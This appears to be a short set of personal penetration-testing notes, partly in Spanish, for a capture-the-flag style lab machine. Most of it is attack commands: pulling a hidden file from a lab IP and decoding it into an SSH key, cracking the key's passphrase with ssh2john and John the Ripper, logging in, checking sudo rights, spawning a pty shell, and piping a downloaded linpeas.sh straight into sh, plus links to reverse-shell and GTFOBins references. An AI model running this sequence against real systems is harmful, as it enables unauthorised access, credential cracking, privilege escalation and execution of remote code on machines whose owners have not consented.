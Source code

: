 ## cipher-identifier

```bash
https://www.dcode.fr/cipher-identifier

curl http://192.168.0.191/~secret/.mysecret.txt | base58 -d > sshkey
```
	el archivo sshkey debe tener un salto de linea al final del archivo para que no de error


## ssh2john

```bash
locate ssh2john
/usr/share/john/ssh2john.py sshkey > hash
sudo john --wordlist=/usr/share/wordlists/fasttrack.txt hash

ssh -i sshkey icex64@192.168.201.131
```

```bash
sudo john hash --show
```


## sudoers

```bash
sudo -l
```

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'        
```

### gtfbins

```bash
https://gtfobins.github.io/
```

## linpeas

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## reverse shell

```bash
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```

## gitdumper
